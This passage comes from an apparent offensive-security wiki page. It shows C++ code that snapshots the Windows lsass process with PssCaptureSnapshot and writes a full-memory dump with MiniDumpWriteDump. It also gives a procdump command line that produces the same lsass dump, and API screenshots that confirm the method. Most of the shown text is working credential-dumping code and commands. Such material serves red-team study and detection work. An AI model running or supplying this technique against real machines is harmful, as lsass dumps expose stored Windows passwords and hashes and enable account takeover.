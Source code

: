 ```cpp
    DWORD flags = (DWORD)PSS_CAPTURE_VA_CLONE | PSS_CAPTURE_HANDLES | PSS_CAPTURE_HANDLE_NAME_INFORMATION | PSS_CAPTURE_HANDLE_BASIC_INFORMATION | PSS_CAPTURE_HANDLE_TYPE_SPECIFIC_INFORMATION | PSS_CAPTURE_HANDLE_TRACE | PSS_CAPTURE_THREADS | PSS_CAPTURE_THREAD_CONTEXT | PSS_CAPTURE_THREAD_CONTEXT_EXTENDED | PSS_CREATE_BREAKAWAY | PSS_CREATE_BREAKAWAY_OPTIONAL | PSS_CREATE_USE_VM_ALLOCATIONS | PSS_CREATE_RELEASE_SECTION;
    MINIDUMP_CALLBACK_INFORMATION CallbackInfo;
    ZeroMemory(&CallbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
    CallbackInfo.CallbackRoutine = &MyMiniDumpWriteDumpCallback;
    CallbackInfo.CallbackParam = NULL;

    PssCaptureSnapshot(lsassHandle, (PSS_CAPTURE_FLAGS)flags, CONTEXT_ALL, (HPSS*)&snapshotHandle);

    BOOL isDumped = MiniDumpWriteDump(snapshotHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, &CallbackInfo);

    if (isDumped) {
        cout << "[+] lsass dumped successfully!" << endl;
    }

    PssFreeSnapshot(GetCurrentProcess(), (HPSS)snapshotHandle);
    return 0;
}
```

![](../../.gitbook/assets/capture-snapshot-lsass.gif)

Note that this is the way `procdump.exe` works when `-r` flag is specified:

![procdump help](../../.gitbook/assets/image%20%28332%29.png)

To confirm, if we execute procdump like so:

```text
procdump -accepteula -r -ma lsass.exe lsass.dmp
```

...and inspect the APIs that are being called under the hood, we will see that `procdump` is indeed dynamically resolving the `PssCaptureSnapshot` address inside the `kernel32.dll`:

![](../../.gitbook/assets/image%20%28485%29.png)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/desktop/proc\_snap/export-a-process-snapshot-to-a-file" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/processsnapshot/nf-processsnapshot-psscapturesnapshot" caption="" %}

{% embed url="https://github.com/m0rv4i/SafetyDump/blob/master/SafetyDump/Program.cs" caption="" %}

